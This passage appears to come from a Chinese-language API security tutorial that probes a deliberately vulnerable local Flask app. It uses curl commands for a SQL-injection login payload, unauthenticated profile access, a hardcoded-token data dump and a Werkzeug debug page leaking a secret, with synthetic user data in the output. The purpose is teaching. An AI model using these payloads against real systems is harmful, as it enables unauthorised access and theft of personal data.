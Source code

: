 ```
    "id": 2,
    "name": "User_2"
  },
  {
    "auth_token": "  03ac641fb0d669d18320b9806403ad4c",
    "credit_card": "  433-32493-22646-29072",
    "email": "user3@example.com",
    "id": 3,
    "name": "User_3"
  }
...Output omitted for brevity...
```

你刚刚获得了所有用户的信息，以 JSON 格式组织，便于之后分类。登录端点实际上并未与 SQL 数据库进行交互。因此，我们无法在这里模拟注入攻击，但核心思想仍然存在。

```
$ curl -X POST -H "Content-Type: application/json" \
-d '{"username": "admin", "password": "admin\' OR \'1\'=\'1"}' \
http://localhost:5000/login
{
  "message": "Invalid credentials!"
}
```

那么，显示用户资料的路由怎么样呢？它不需要任何先前的 AuthZ 来查看用户资料。我们来试试看：

```
$ curl http://localhost:5000/profile/10
{
  "auth_token": "  0f5832741bd997a963a2b1c10c7e3410",
  "credit_card": "  4904-20956-3479-12358",
  "email": "user10@example.com",
  "id": 10,
  "name": "User_10"
}
```

你刚刚发现了另一个 API 端点，在没有正确的 AuthN 或 AuthZ 的情况下暴露了有效的信息。接下来，我们继续练习，探索那个尝试用 AuthZ 令牌保护应用程序的端点。在这种情况下，我们知道令牌控制是一个简单的 Python 条件判断，它检查一个简单的令牌内容，但在现实世界的场景中，如果使用 NoSQL 或内存数据库，我们可以尝试进行相关的注入攻击来绕过保护：

```
curl -H "Authorization: 12345" http://localhost:5000/get_sensitive_data
id,name,email,credit_card,auth_token
1,User_1,user1@example.com,  24280-22986-24153-30647, 1314d0dabf32fb00873d2af1df67104b
2,User_2,user2@example.com,  22724-31508-12727-13842,  0120956bf359ec6768e41451a4427360
3,User_3,user3@example.com,  19369-31798-14486-31982,  8be7e021287609dd9e274ccf26b7bbb5
…Output omitted for brevity…
```

最后一条路由仅仅是为了发送一条详细的错误信息，强化在异常和错误发生时不加以处理的危险。想了解更多内容，请查阅[*第六章*，在该章节中我们有深入的讨论：

```
$ curl http://localhost:5000/cause_error
<!doctype html>
<html lang=en>
  <head>
    <title>ZeroDivisionError: division by zero
 // Werkzeug Debugger</title>
    <link rel="stylesheet" href="?__debugger__=yes&amp;cmd=resource&amp;f=style.css">
    <link rel="shortcut icon"
        href="?__debugger__=yes&amp;cmd=resource&amp;f=console.png">
    <script src="img/?__debugger__=yes&amp;cmd=resource&amp;f=debugger.js"></script>
    <script>
      var CONSOLE_MODE = false,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "MN645GMVPd9f6W0ZSFTa";
    </script>
```